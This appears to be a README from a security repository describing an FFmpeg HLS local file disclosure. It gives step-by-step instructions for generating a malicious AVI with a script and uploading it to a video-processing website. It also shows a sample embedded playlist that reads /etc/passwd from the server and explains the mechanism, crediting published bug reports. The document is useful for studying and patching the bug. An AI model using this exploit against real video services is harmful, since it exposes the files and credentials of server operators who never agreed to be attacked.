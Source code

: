 # FFmpeg HLS vulnerability
FFmpeg is an open source software used for processing audio and video formats. You can use a malicious HLS playlist inside an AVI video to read arbitrary files.

## Exploits
```
1. `./gen_xbin_avi.py file://<filename> file_read.avi`
2. Upload `file_read.avi` to some website that processes videofiles
3. (on server side, done by the videoservice) `ffmpeg -i file_read.avi output.mp4`
4. Click "Play" in the videoservice.
5. If you are lucky, you'll the content of `<filename>` from the server.
```

## How it works (Explanations from neex - Hackerone links)
the script creates an AVI that contains an HLS playlist inside GAB2. The playlist generated by this script looks like this:
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0
GOD.txt
#EXTINF:1.0
/etc/passwd
#EXT-X-ENDLIST
```
To process a playlist ffmpeg concatenates all segments and processes it as single file.
To determine the type of this file FFmpeg uses the first segment of the playlist.
FFmpeg processes .txt files in a special way. It tries to show a screen capture of a tty printing this file.    

So, the playlist above will be processed as follows:
FFmpeg sees #EXTM3U signature inside GAB2 chunk and determines file type as HLS playlist.
The file GOD.txt doesn't even exist, but it's name is enough for FFmpeg to detect file type as .txt.
FFmpeg concatenates the contents of all segments of the playlist. As only one of two segments actually exists, the result of concatenation is just the contents of the file we want to retrieve.
Because the type of this concatenation is .txt, FFmpeg draws a tty that prints the file.

## Thanks to
* [Hackerone - Local File Disclosure via ffmpeg @sxcurity](https://hackerone.com/reports/242831)
* [Hackerone - Another local file disclosure via ffmpeg](https://hackerone.com/reports/243470)
* [PHDays - Attacks on video converters:a year later, Emil Lerner, Pavel Cheremushkin](https://docs.google.com/presentation/d/1yqWy_aE3dQNXAhW8kxMxRqtP7qMHaIfMzUDpEqFneos/edit#slide=id.p)
* [Script by @neex](https://github.com/neex/ffmpeg-avi-m3u-xbin/blob/master/gen_xbin_avi.py)
